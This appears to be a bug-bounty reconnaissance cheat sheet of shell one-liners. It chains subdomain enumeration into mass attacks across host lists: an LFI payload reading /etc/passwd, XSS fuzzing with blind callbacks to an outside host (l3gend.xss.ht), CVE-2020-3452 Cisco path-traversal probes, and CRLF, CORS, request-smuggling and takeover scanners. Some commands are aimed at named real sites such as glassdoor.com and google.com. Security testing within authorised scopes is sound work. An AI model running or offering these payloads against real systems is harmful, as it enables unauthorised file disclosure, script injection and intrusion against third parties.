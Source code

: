 # Method 1

## domains

cat wildcards.txt | assetfinder -subs-only | anew domains

amass enum -df wildcards.txt | anew domains

subfinder -silent -dL wildcards.txt| anew domains

## one liners and tools

sort -u domains | httprobe > uniq.txt

crlfuzz -l uniq.txt -s

gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt

python3 ~/tools/Corsy/corsy.py -i uniq.txt 

python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 

python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q

python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt


* CVE-2020-3452

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

subzy -targets domains -hide_fails

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## dalfox

python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt

dalfox -b l3gend.xss.ht file param.txt

